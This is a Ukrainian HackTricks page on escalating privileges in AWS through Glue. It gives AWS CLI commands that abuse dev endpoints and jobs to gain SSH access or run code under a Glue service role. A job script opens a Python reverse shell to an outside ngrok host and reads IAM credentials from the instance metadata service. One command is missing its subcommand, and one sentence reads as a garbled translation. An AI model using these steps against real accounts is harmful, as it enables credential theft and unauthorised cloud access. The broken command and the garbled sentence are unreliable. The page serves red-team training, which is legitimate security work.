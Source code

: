 # AWS - Підвищення привілеїв Glue

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити **рекламу вашої компанії на HackTricks** або **завантажити HackTricks у форматі PDF**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв GitHub.

</details>

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Користувачі з цими дозволами можуть **налаштувати нову розробницьку точку доступу AWS Glue**, **призначивши існуючу службову роль** з конкретними дозволами для цієї точки доступу.

Після налаштування **зловмисник може виконати SSH на екземпляр точки доступу** та вкрасти IAM-підтвердження призначеної ролі:
```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name <endpoint-name> \
--role-arn <arn-role> \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
Для забезпечення конфіденційності рекомендується використовувати облікові дані IAM зсередини віртуальної машини Glue.

**Потенційний вплив:** Підвищення привілеїв до вказаної ролі служби glue.

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Користувачі з цим дозволом можуть **змінювати існуючу точку розвитку Glue**, ключ SSH, **що дозволяє доступ до SSH**. Це дозволяє зловмиснику виконувати команди з привілеями ролі, приєднаної до точки розвитку:
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
**Потенційний вплив:** Підвищення привілеїв до ролі служби glue, яка використовується.

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

Користувачі з **`iam:PassRole`**, поєднано з **`glue:CreateJob` або `glue:UpdateJob`**, і або **`glue:StartJobRun` або `glue:CreateTrigger`** можуть **створювати або оновлювати роботу AWS Glue**, прикріплюючи будь-який **обліковий запис служби Glue**, та запускати виконання роботи. Можливості роботи включають в себе виконання довільного коду Python, який може бути використаний для створення зворотного shell. Цей зворотний shell можна використовувати для виведення **IAM-підтвердження** ролі, прикріпленої до роботи Glue, що призводить до потенційного несанкціонованого доступу або дій на основі дозволів цієї ролі:
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**Потенційний вплив:** Підвищення привілеїв до вказаної ролі служби glue.

### `glue:UpdateJob`

Лише з дозволом на оновлення атакуючий може вкрасти облікові дані IAM вже прикріпленої ролі.

**Потенційний вплив:** Підвищення привілеїв до прикріпленої ролі служби glue.

## Посилання

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити вашу **компанію рекламовану в HackTricks** або **завантажити HackTricks у форматі PDF**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв GitHub.

</details>

